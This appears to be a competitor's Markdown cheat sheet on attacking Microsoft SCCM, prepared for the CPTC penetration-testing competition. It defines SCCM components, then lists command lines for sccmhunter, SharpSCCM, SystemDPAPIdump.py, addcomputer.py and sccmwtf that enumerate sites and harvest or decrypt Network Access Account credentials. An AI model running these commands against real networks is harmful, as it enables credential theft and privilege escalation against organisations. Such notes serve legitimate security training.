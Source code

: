 # SCCM

SCCM (now MECM and previously SMS) is the System Center Configuration Manager.

It is an on-prem AD-integrated solution that aims to handle path management, task automation, remote control, and often is joined with OS deployment (through PXE). 

There is now a cloud native version from MS called Intune

* CPTC has historically made "trendy" vulns a big part of that year's competition (which is why I have a separate document for SCCM).
	* CHECK THE COMMITS,,, I PUSHED BEFORE THE DEADLINE 

**Important Definitions**:

* Site Server: The server that hosts the SCCM site
	* Will always have a 3-letter site code
* Network Access Account (NAA)
	* Used to authenticate to the SCCM server if the machine isn't domain-joined yet
	* This is widely used, but is not required. Enhanced HTTP is a more secure alternative
* Client Push Installation Accounts (Push Account)
* (WSUS) 
* Operating System Deployment (OSD)
	* SCCM can deploy windows onto multiple machines at once through PXE (Network Boot)
	* This happens through a PXE server, which happens through a "wim" file
	* There should be a password requested when the installer is run - but this is often not the case
	* After network boot, the OS image will be transferred via HTTP and installed. The machine will then be domain joined and programs will be configured

## Enumeration

Linux:

* [**PXEThief**](https://github.com/MWR-CyberSec/PXEThief)

* [**sccmhunter**](https://github.com/garrettfoster13/sccmhunter)

`python3 sccmhunter.py find -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`
`python3 sccmhunter.py smb -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`


`python3 sccmhunter.py show -users`
`python3 sccmhunter.py show -computers`

Windows:

* Go to `Control panel > Configuration Manager`
	* If SCCM is on the domain, you'll see an assigned management point and a site code

`.\SharpSCCM.exe local site-info`


## Privilege Escalation

### Credential Harvesting

**NAA**:
* If you are a local admin on the SCCM client

Linux:
`SystemDPAPIdump.py <domain>/<low_priv_user>:'<password>'@<server>`

Windows:
`.\SharpSCCM get secrets`
`.\SharpSCCM local secrets -m wmi`

* If you are not a local admin, you can make a machine account (all non-privileged users can make 10 machine accounts by default)

`addcomputer.py <domain>/<low_priv_user>:'<password>' -dc-ip <dc ip>`

* [**sccmwtf**](https://github.com/xpn/sccmwtf)

`sccmwtf.py <new machine hostname> <new machine fqdn> <sccm site server hostname> '<domain>\<new machine fqdn>$' '<new machine password>`
`.\sccm-decrypt.exe <CDATA>`
### 


## Lateral Movement

